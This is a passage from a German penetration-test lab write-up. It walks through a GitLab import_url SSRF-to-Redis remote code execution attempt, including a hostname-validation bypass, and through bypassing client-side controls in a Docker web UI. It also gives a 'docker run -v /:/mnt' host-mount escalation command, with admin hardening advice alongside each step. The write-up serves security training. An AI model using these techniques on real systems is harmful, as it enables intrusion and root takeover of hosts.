**Empfehlung (Pentester):** Verwenden Sie einen Proxy (wie Burp Suite), um HTTP-Requests abzufangen und zu modifizieren. Dies ist unerlässlich, wenn automatisierte Skripte fehlschlagen oder für manuelle Tests komplexer Web-Schwachstellen.
**Empfehlung (Admin):** (Wiederholung der Empfehlungen zur Absicherung von GitLab).
Vorbereitung für manuellen Exploit-Versuch mit Burp Suite – Erstellen eines Projekts in GitLab:
http://192.168.2.215:5080/projects/new

Bildbeschreibung: hier wird ein projekt in Gitlab erstellt
Bildbeschreibung: hier sieht man die config des fake projekts für burpsuite
**Analyse:** Ich zeige den HTTP-POST-Request, der vom Browser (wahrscheinlich nach manueller Eingabe im Formular) zum Erstellen des Projekts gesendet wird. Dieser Request enthält alle notwendigen Parameter, darunter `authenticity_token`, Projekt-Details wie `project[name]`, `project[namespace_id]`, `project[path]` und vor allem `project[import_url]`. Der Standardwert für `import_url` ist hier `http://a.com/b.git`.
**Bewertung:** Dies ist der genaue Request, den ich in Burp Suite modifizieren werde, um den bösartigen Payload in den `project[import_url]` Parameter einzufügen. Ich sehe alle notwendigen Felder wie `authenticity_token` und die Struktur der Projekt-Parameter. Der Standardwert in `import_url` zeigt, dass die Anwendung externe URLs für den Import erwartet.
**Empfehlung (Pentester):** Untersuchen Sie alle Parameter in POST-Requests auf potenzielle Injection-Punkte. Die `import_url` ist hier der offensichtliche Punkt für SSRF/RCE.
**Empfehlung (Admin):** Validieren und bereinigen Sie alle Benutzereingaben in Formularen, insbesondere in Feldern, die URLs, Dateinamen oder Befehle erwarten.
POST /projects HTTP/1.1 Host: 192.168.2.215:5080 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: de,en-US;q=0.7,en;q=0.3 Accept-Encoding: gzip, deflate, br Referer: http://192.168.2.215:5080/projects/new Content-Type: application/x-www-form-urlencoded Content-Length: 350 Origin: http://192.168.2.215:5080 DNT: 1 Connection: keep-alive Cookie: sidebar_collapsed=false; grafana_session=51c4fad1c33bb3c2fce6f6e726d6480a; _gitlab_session=739b55f9a60de58847ea72c9bd5349fd; remember_user_token=W1sxXSwiJDJhJDEwJGRjTXJYZDZ0L0NpSVVMTHo1YjdsdU8iLCIxNzQ5Mjk4MTMwLjk4NTc5MjIiXQ%3D%3D--7fc52f2762d93439aa938777fc0608868c2a303d Upgrade-Insecure-Requests: 1 Sec-GPC: 1 Priority: u=0, i utf8=%E2%9C%93&authenticity_token=TuEW8%2FmDazTJK%2B8sq5YQeAwkWe%2B4XHqJagOyTXlEJrKMrsY2w8ctnhgOFHlLy7V2m3ll5bUicb4c6uP43ZHH4A%3D%3D&project%5Bimport_url%5D=http%3A%2F%2Fa.com%2Fb.git&project%5Bci_cd_only%5D=false&project%5Bname%5D=Exploit-Test&project%5Bnamespace_id%5D=1&project%5Bpath%5D=b&project%5Bdescription%5D=&project%5Bvisibility_level%5D=0
**Analyse:** Ich dokumentiere die Antwort des Servers auf den Standard-HTTP-POST-Request zum Erstellen eines Projekts mit einer harmlosen `import_url`.
**Bewertung:** Die Antwort ist HTTP/1.1 302 Found, was eine Weiterleitung auf die neue Projektseite (`/root/b`) signalisiert. Dies ist das erwartete Verhalten bei erfolgreicher Projekterstellung. Die Header enthalten auch verschiedene Sicherheits-Header (X-Content-Type-Options, X-Frame-Options, X-Xss-Protection, Strict-Transport-Security) und anwendungsspezifische Header. Die Status 302 bedeutet, dass der erste Teil des Requests (Projekterstellung) funktioniert hat, auch wenn der Import selbst (asynchron) fehlschlagen mag.
**Empfehlung (Pentester):** Dieses Verhalten dient als Basislinie für die Reaktion des Servers. Abweichungen hiervon bei der Injektion des bösartigen Payloads müssen analysiert werden.
**Empfehlung (Admin):** Implementieren Sie die empfohlenen Sicherheits-Header, um gängige Web-Schwachstellen zu mindern.
HTTP/1.1 302 Found Server: nginx Date: Sat, 07 Jun 2025 12:36:02 GMT Content-Type: text/html; charset=utf-8 Content-Length: 98 Connection: keep-alive Cache-Control: max-age=0, private, must-revalidate, no-store Location: [Link: http://192.168.2.215:5080/root/b | Ziel: http://192.168.2.215:5080/root/b] Pragma: no-cache Set-Cookie: issue_board_welcome_hidden=; path=/root/b; expires=Thu, 01 Jan 1970 00:00:00 -0000 X-Content-Type-Options: nosniff X-Frame-Options: DENY X-Request-Id: 987307da-ecfa-4d38-97d1-f533b1f19a9d X-Runtime: 0.663434 X-Ua-Compatible: IE=edge X-Xss-Protection: 1; mode=block Strict-Transport-Security: max-age=31536000 <html><body>You are being <a href="http://192.168.2.215:5080/root/b">redirected</a>.</body></html>
Hier hast den entscheidenden Punkt gemacht: Wir haben den GitLab-Weg jetzt ausgeschlossen. Wir haben ihn mit einem reparierten Skript versucht. Wir haben ihn mit Burp manuell versucht. Ergebnis: Der Server antwortet, aber die RCE wird nicht ausgelöst.
Du hast die ubuntu:18.04 Image-ID schon gefunden. Hier ist sie nochmal: sha256:71cb16d32be4a95065b4fa1c8841a6f4c0098de7be0a90e14519098412d48356
hier greifen wir weiter an mit JS
**Analyse:** Basierend auf dem Fazit, dass der GitLab RCE-Weg mit dem aktuellen Payload nicht funktioniert hat und dem Hinweis, dass wir nun "mit JS" angreifen, wende ich mich wieder der Docker Web UI auf Port 9000 zu. Ich navigiere zur `/images` Seite und dokumentiere, dass dort eine versteckte "run" Funktion zum Starten von Images existiert, die anscheinend über JavaScript gesteuert wird und standardmäßig deaktiviert ist. Das Bild zeigt die UI-Elemente, die auf diese Funktion hindeuten.
**Bewertung:** Die Entdeckung einer "run" Funktion in der Docker Web UI, auch wenn sie durch JS blockiert ist, ist ein vielversprechender neuer Vektor. Die Möglichkeit, Docker Images direkt über die UI zu starten, könnte zu einem initialen Shell-Zugriff führen, insbesondere wenn ich das Host-Dateisystem in einen neuen Container mounten kann. Das Blocking über JS ist leicht zu umgehen, wie wir im Blackhat-Bericht gesehen haben. Der Fokus verschiebt sich nun auf die Ausnutzung dieser Docker-Funktionalität.
**Empfehlung (Pentester):** Untersuchen Sie den JavaScript-Code der Docker Web UI, um den Mechanismus des Blocking zu verstehen und zu umgehen. Nutzen Sie die "run" Funktion, um einen Container mit gemountetem Host-Dateisystem zu starten, um eine Shell oder Root-Zugriff zu erlangen.
**Empfehlung (Admin):** Entfernen Sie ungenutzte oder durch clientseitiges Skript blockierte Funktionen aus Web-Oberflächen. Implementieren Sie serverseitige Zugriffskontrollen für kritische Aktionen wie das Starten von Containern.
Entdeckung einer versteckten "run" Funktion in der Docker Web UI auf Port 9000:
view-source:http://192.168.2.215:9000/images

Bildbeschreibung: hier sehen wir eine versteckte funktion zum starten von images ...
**Analyse:** Ich dokumentiere, dass ich durch Einfügen von eigenem JavaScript-Code in die Browser-Konsole (oder durch Modifikation des Seiten-JS) die "run" Funktion in der Docker Web UI aktiviert habe. Das Bild zeigt, dass die Funktion nun klickbar und nutzbar ist.
**Bewertung:** Dies bestätigt, dass das Blocking clientseitig erfolgte und leicht umgangen werden konnte. Ich kann nun die "run" Funktion der Docker Web UI nutzen, um mit Docker Images zu interagieren. Dies ist der Schritt, der die Nutzung der Docker-Funktionalität über die ungeschützte UI ermöglicht.
**Empfehlung (Pentester):** Nutzen Sie die freigeschaltete Funktion, um Container mit bösartigen Konfigurationen (z.B. Host-Mounts) zu starten.
**Empfehlung (Admin):** Verlassen Sie sich niemals auf clientseitiges JavaScript für Sicherheitsmaßnahmen. Implementieren Sie serverseitige Validierung und Zugriffskontrollen.
Freischalten der "run" Funktion durch clientseitige JS-Manipulation:
Bildbeschreibung: hier wir durch unseren eingefügten js code wurde die run funktion freigeschaltet
**Analyse:** Ich dokumentiere einen weiteren Schritt bei der Nutzung der freigeschalteten Docker Web UI. Bei der Interaktion mit der "run" Funktion wird wahrscheinlich ein Popup oder Formular angezeigt. Das Bild zeigt, dass ich die Entwickler-Tools des Browsers nutze, um ein Textfeld im Popup, das möglicherweise auf "readonly" gesetzt ist (`readonly=true`), zu modifizieren und das `readonly` Attribut zu entfernen. Dies ermöglicht mir, den Inhalt des Textfeldes zu bearbeiten.
**Bewertung:** Das Entfernen des `readonly` Attributs über die Entwickler-Tools ist eine weitere gängige Methode, clientseitige Einschränkungen in Webanwendungen zu umgehen. Dies deutet darauf hin, dass das Formular zum Konfigurieren des Container-Starts ebenfalls clientseitig eingeschränkt wurde, was ein weiteres Zeichen für unzureichende serverseitige Validierung ist. Ich kann nun wahrscheinlich Parameter für den `docker run` Befehl über die UI anpassen.
**Empfehlung (Pentester):** Lernen Sie den Umgang mit Browser-Entwickler-Tools, um clientseitige Einschränkungen in Formularen oder UI-Elementen zu umgehen.
**Empfehlung (Admin):** Implementieren Sie immer serverseitige Validierung und Zugriffskontrollen für alle Eingabefelder und Aktionen, unabhängig von clientseitigen Skripten oder UI-Elementen.
Entfernen des `readonly` Attributs in einem Textfeld über die Browser-Entwickler-Tools:
Bildbeschreibung: hier klicken auf das run popup reckte maustaste/inspektor/readonly=true entfernen
**Analyse:** Ich dokumentiere den Befehl `docker run -it -d --name WIR_SIND_DRIN -v /:/mnt alpine`. Dieser Befehl startet einen Docker-Container vom Image `alpine`, benennt ihn "WIR_SIND_DRIN", führt ihn im Detached-Modus aus (`-d`), weist ein TTY zu (`-it`) und mountet **das Root-Dateisystem des Hosts (`/`)** in das Verzeichnis `/mnt` im Container (`-v /:/mnt`). Der Text im Bericht gibt an, dass dieser Befehl scheinbar über die JS/UI ausgeführt wurde, aber kein Container erschien.
**Bewertung:** Dies ist der entscheidende Befehl für einen Docker-Container-Escape zur Erlangung von Root-Zugriff auf dem Host-Dateisystem, *vorausgesetzt*, dieser Befehl wird mit ausreichenden Rechten (z.B. durch den `git` Benutzer über `sudo docker`, wie später im PE-Abschnitt gezeigt) ausgeführt. Das Mounten des Host-Root-Dateisystems in einen Container ist eine gängige Methode, um auf die Dateien des Hosts zuzugreifen und Privilegien auszuweiten. Dass kein Container erschien, könnte auf einen Fehler bei der Ausführung über die UI hindeuten oder darauf, dass der Befehl zwar ausgeführt wurde, aber keine interaktive Shell im Vordergrund startete, wie der `-d` Flag bewirkt. **Wichtig ist jedoch, dass dieser Befehl später über die `sudo docker` Berechtigung des `git` Benutzers erfolgreich für die Privilege Escalation genutzt wird.**
**Empfehlung (Pentester):** Nutzen Sie diese Technik (`docker run -v /:/mnt ...`) in Kombination mit einer Shell im Container (`chroot /mnt sh`) um Root-Zugriff auf das Host-Dateisystem zu erlangen, wenn Sie Docker-Befehle mit privilegierten Rechten ausführen können.
**Empfehlung (Admin):** **KRITISCH:** Implementieren Sie strikte Zugriffskontrollen für die Docker-API und den `docker` Befehl. Unprivilegierte Benutzer sollten diesen Befehl (insbesondere mit `sudo`) nicht ausführen können. Überprüfen Sie die `sudoers` Datei. Nutzen Sie prinzipiell das Principle of Least Privilege für Container und Benutzer.
Der `docker run` Befehl, der später für die Privilege Escalation genutzt wird:
docker run -it -d --name WIR_SIND_DRIN -v /:/mnt alpine der docker run-Befehl über JS oder UI scheinbar erfolgreich ausgeführt wurde, aber kein Container erscheint
**Analyse:** Ich kehre zum GitLab RCE Exploit auf Port 5080 zurück und dokumentiere den Prozess der URL-Codierung des bösartigen Payloads mit CyberChef. Das Bild zeigt den Ruby-Payload (der an Redis gesendet wird) und seine URL-encodierte Form.
**Bewertung:** Die URL-Codierung ist notwendig, da der Payload Sonderzeichen (`\n`, `"`, `{`, `}`) enthält, die in einer URL korrekt maskiert werden müssen, damit die `import_url`-Parameter-Verarbeitung in GitLab und die weitere Verarbeitung (z.B. durch Redis oder den Ruby-Interpreter) korrekt funktionieren. Dies ist ein wichtiger Schritt beim Debugging und Anpassen des Exploits, nachdem die automatisierten Versuche fehlschlugen.
**Empfehlung (Pentester):** Verstehen Sie, welche Zeichen in welchem Kontext URL-codiert oder maskiert werden müssen. Nutzen Sie Tools wie CyberChef für die korrekte Codierung komplexer Payloads.
**Empfehlung (Admin):** Die korrekte Handhabung und Validierung von codierten Zeichen in Benutzereingaben ist essentiell, um Injection-Schwachstellen zu verhindern.
URL-Codierung des RCE-Payloads für den GitLab-Import:
Bildbeschreibung: hier wird mein payload mit cyberchef urlencoded
**Analyse:** Ich dokumentiere den Versuch, ein neues GitLab-Projekt über die Web-UI oder manuell mit einem URL-encodierten `git://` Payload als `import_url` zu erstellen. Das Bild zeigt die GitLab-Oberfläche, die versucht, das Repository zu erstellen/importieren.
**Bewertung:** Das Erscheinen dieser Ansicht zeigt, dass der Request zum Erstellen des Projekts mit dem manipulierten `import_url` Parameter erfolgreich war und GitLab versucht, das Repository zu importieren. Dies ist ein positives Zeichen dafür, dass der Payload korrekt strukturiert ist, um von GitLab verarbeitet zu werden und den Import-Prozess (der die Schwachstelle auslöst) zu starten.
**Empfehlung (Pentester):** Beobachten Sie die UI-Rückmeldung und die Server-Antworten genau, um den Erfolg oder Misserfolg von Exploit-Versuchen zu beurteilen.
**Empfehlung (Admin):** Überwachen Sie das Logging von GitLab auf Fehler oder ungewöhnliche Aktivitäten im Zusammenhang mit dem Repository-Import.
Versuch, ein Projekt mit dem URL-encodierten Payload zu erstellen:
Bildbeschreibung: das repo mit encoded payload wird erstellt
**Analyse:** Ich dokumentiere eine Fehlermeldung in der GitLab UI nach einem Versuch, das Projekt mit dem bösartigen `import_url` zu erstellen: "Import url is blocked: Hostname needs to start with an alphanumeric character". Das Bild zeigt diese Fehlermeldung.
**Bewertung:** Diese Fehlermeldung zeigt eine serverseitige Validierung oder Filterung des `import_url` Parameters. GitLab prüft offenbar, ob der Hostname (in meinem Fall die IP-Adresse im IPv6-Format `[0:0:0:0:0:ffff:127.0.0.1]`) mit einem alphanumerischen Zeichen beginnt. Da das `[` Zeichen nicht alphanumerisch ist, wird der Import blockiert. Dies ist ein Schutzmechanismus, der umgangen werden muss.
**Empfehlung (Pentester):** Identifizieren Sie die genaue Filterregel basierend auf der Fehlermeldung. Suchen Sie nach Möglichkeiten, die Validierung zu umgehen, z.B. durch alternative Hostnamen-Syntaxen (falls GitLab dies auflöst) oder andere Endpunkte, die die Validierung nicht durchführen. Dokumentieren Sie Bypass-Techniken für Hostname-Validierungen.
**Empfehlung (Admin):** Implementieren Sie robuste Validierungen für alle externen Eingaben, insbesondere URLs. Die Validierung des Hostnamens ist ein guter Schritt, muss aber umfassend sein.
Fehlermeldung aufgrund der Hostname-Validierung im `import_url`:
Bildbeschreibung: repo will alphanumeric url
**Analyse:** Ich dokumentiere die Korrektur des Payloads, um die alphanumerische Hostname-Validierung in GitLab zu umgehen. Das Bild zeigt, dass ich wahrscheinlich den `git://[0:0:0:0:0:ffff:127.0.0.1]:6379/` Teil des Payloads durch etwas ersetze, das die Validierung umgeht, während es immer noch auf die interne Redis-Instanz zeigt. Eine gängige Bypass-Technik für solche Validierungen ist das Hinzufügen von `a@` vor der IP-Adresse (z.B. `git://a@[0:0:0:0:0:ffff:127.0.0.1]:6379/`), da einige Parser dies als Benutzername im URL interpretieren und der Hostname dann mit einem alphanumerischen Zeichen beginnt. Ich dokumentiere das Kopieren des umgehenden Payloads.
**Bewertung:** Dies ist ein klassischer Bypass einer unzureichenden Hostname-Validierung. Durch das Hinzufügen eines alphanumerischen Zeichens am Anfang des Hostnamen-Teils wird die Validierung getäuscht, während die Verbindung weiterhin zur internen Redis-Instanz aufgebaut wird. Mit diesem angepassten Payload sollte die RCE nun auslösbar sein.
**Empfehlung (Pentester):** Machen Sie sich mit gängigen Bypass-Techniken für URL-Parsing-Schwachstellen und Hostname-Validierungen vertraut. Testen Sie verschiedene Protokoll-Handler und URL-Formate.
**Empfehlung (Admin):** Implementieren Sie eine robuste URL-Parsing-Logik, die nicht durch ungewöhnliche Formate oder eingebettete Zeichen getäuscht werden kann. Nutzen Sie Bibliotheken, die speziell für sicheres URL-Parsing in sicherheitskritischen Kontexten entwickelt wurden.
Korrektur des Payloads zur Umgehung der alphanumerischen Hostname-Validierung:
Bildbeschreibung: repo will alphanumeric url
Bildbeschreibung: den markierten teil mit dem string ersetzen
**Analyse:** Ich dokumentiere die erfolgreiche Ausführung des Exploits mit dem angepassten Payload (der wahrscheinlich die alphanumerische Validierung umgeht und die korrigierte Ruby/Bash-Syntax enthält) über die GitLab-Importfunktion. Das Bild zeigt die GitLab-Oberfläche, die "Import in progress" anzeigt, was auf den Beginn des Importvorgangs hindeutet. Es wird auch der Befehl `git clone --bare ...` gezeigt, der intern vom GitLab-Prozess ausgeführt wird und den Payload enthält.
**Bewertung:** **ERFOLG! Der angepasste Payload scheint von GitLab akzeptiert und verarbeitet zu werden.** Die Meldung "Import in progress" und der interne `git clone` Befehl mit dem Payload zeigen, dass die SSRF zum internen Redis ausgelöst wurde und die Redis-Befehle (multi, sadd, lpush, exec) an die Warteschlange gesendet wurden. Die RCE sollte nun als Job im Hintergrund ausgeführt werden. Ich erwarte, dass eine Reverse Shell auf meinem Listener landet.
**Empfehlung (Pentester):** Richten Sie sofort einen Listener ein, der die Reverse Shell empfangen soll. Warten Sie geduldig, da die Ausführung des Jobs asynchron erfolgen kann.
